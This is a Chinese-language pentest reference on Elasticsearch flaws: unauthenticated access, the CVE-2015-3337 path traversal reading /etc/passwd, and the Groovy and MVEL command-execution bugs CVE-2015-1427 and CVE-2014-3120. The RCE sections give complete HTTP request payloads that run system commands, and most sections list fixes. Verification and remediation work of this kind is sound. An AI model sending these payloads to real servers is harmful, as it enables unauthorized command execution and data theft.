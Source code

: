 # elasticsearch

## 一、elsaticsearch未授权访问漏洞
### 漏洞说明
Elasticsearch服务普遍存在一个未授权访问的问题，攻击者通常可以请求一个开放9200或9300的服务器进行恶意攻击。

### 影响范围
/

### 验证方法
**手工验证**
http://localhost:9200/_cat/indices
http://localhost:9200/_river/_search 查看数据库敏感信息
http://localhost:9200/_nodes 查看节点数据

**pocsuite**
poc_elasticsearch_unauth.py

### 利用方法

### 修复方法
1. 限制IP访问，绑定固定IP
2. 在config/elasticsearch.yml中为9200端口设置认证：
```vim
http.basic.enabled true #开关，开启会接管全部HTTP连接
http.basic.user "admin" #账号
http.basic.password "admin_pw" #密码
http.basic.ipwhitelist ["localhost", "127.0.0.1"]
```

## 二、目录遍历漏洞（cve-2015-3337)
### 漏洞说明
安装 “site” 功能的插件后，插件目录使用…/ 向上跳转，导致目录穿越漏洞，可读取任意文件。未安装 site 功能插件的不受影响  
/_cat/plugins：查看所有已安装的插件

### 影响范围
1.4.5以下/1.5.2以下

### 验证方法
一般复现以 head 插件为例，若查看存在 head 插件，burp  
访问

```
http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd
```
参考：https://blog.csdn.net/qq_36374896/article/details/84145527

### 利用方法
/
### 修复方法
升级elasticsearch版本

## 三、CVE-2015-1427 任意命令执行
### 漏洞说明
ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过； 2.是一个Goovy代码执行漏洞。
### 涉及范围
es 1.4.2
### 验证方法
**手工验证**
1. 插入数据：
```
POST /website/blog/ HTTP/1.1
Host: ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
{
  "name": "test"
}

```
2. 执行 JAVA 代码
```
POST /_search?pretty HTTP/1.1
Host: ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 489
{
    "size":1,
    "script_fields": {
        "test#": {  
            "script":
                "java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getInputStream())).readLines()",
            "lang": "groovy"
        }
    }
}
```
3. 利用 Groovy 执行命令

```
POST /_search?pretty HTTP/1.1
Host: 192.168.91.130:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156
{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```
### 修复方式
升级es版本



## 四：cve-2014-3120 命令执行
### 漏洞说明
老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。
### 涉及范围
es:1.1.1


### 验证方法
1. 加入一条数据
```
POST /website/blog/ HTTP/1.1
Host: 192.168.15.130:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
{
  "name": "phithon"
}

```

2. 代码执行

```
POST /_search?pretty HTTP/1.1
Host: 192.168.15.130:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

### 修复方式
升级es版本